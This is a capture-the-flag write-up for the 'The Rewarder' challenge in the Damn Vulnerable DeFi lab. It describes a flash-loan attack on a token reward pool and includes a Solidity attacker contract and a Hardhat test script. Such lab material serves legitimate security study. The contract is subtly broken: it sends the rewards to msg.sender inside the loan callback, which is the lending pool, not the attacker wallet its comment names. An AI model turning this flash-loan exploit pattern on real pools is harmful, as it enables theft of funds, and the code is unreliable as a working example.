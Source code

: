 # #5 The Rewarder Damn Vulnerable Defi

## Goals

=> There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

=> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

=> You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

=> By the way, rumours say a new pool has just launched. Isn’t it offering flash loans of DVT tokens?

### Hints

- None

### Solution

- Advance the evm time by 5 days so the new payout round takes place

- Create a contract that takes a Flashloan for the 1 million liquidity tokens
- When the contract receives the Flashloan we need to approve the rewarder pool for our tokens and send the tokens via deposit to the rewarder pool

- We get rewarded with rewardToken

- Then withdraw the deposited liquidity tokens to send them back to the flash loan pool

### Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";
import "./RewardToken.sol";
import "../DamnValuableToken.sol";

contract RewarderAttacker {
    RewardToken public rewardToken;
    FlashLoanerPool public loanerPool;
    TheRewarderPool public rewarderPool;
    DamnValuableToken public immutable liquidityToken;

    constructor(
        address _rewardToken,
        address _loanerPool,
        address _rewarderPool,
        address liquidityTokenAddress
    ) {
        rewardToken = RewardToken(_rewardToken);
        loanerPool = FlashLoanerPool(_loanerPool);
        rewarderPool = TheRewarderPool(_rewarderPool);
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        // take flashLoan for 1 mil Token
    }

    function attack() external {
        loanerPool.flashLoan(1_000_000 ether);
    }

    // gets called by FlashLoanPool contract
    function receiveFlashLoan(uint256 amount) external {
        uint256 balance = liquidityToken.balanceOf(address(this));
        liquidityToken.approve(address(rewarderPool), balance);
        rewarderPool.deposit(balance);
        rewarderPool.withdraw(balance);
        // Return funds to pool
        liquidityToken.transfer(address(loanerPool), amount);
        // transfer rewards to attackerWallet
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }
}
```

### Test

```javascript
it('Execution', async function () {
	await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60]); // 5 days
	const AttackerFactory = await ethers.getContractFactory('RewarderAttacker', deployer);
	const attacker = await AttackerFactory.deploy(
		rewardToken.address,
		flashLoanPool.address,
		rewarderPool.address,
		liquidityToken.address
	);
	const attackTx = await attacker.connect(player).attack();
	await attackTx.wait();
});
```
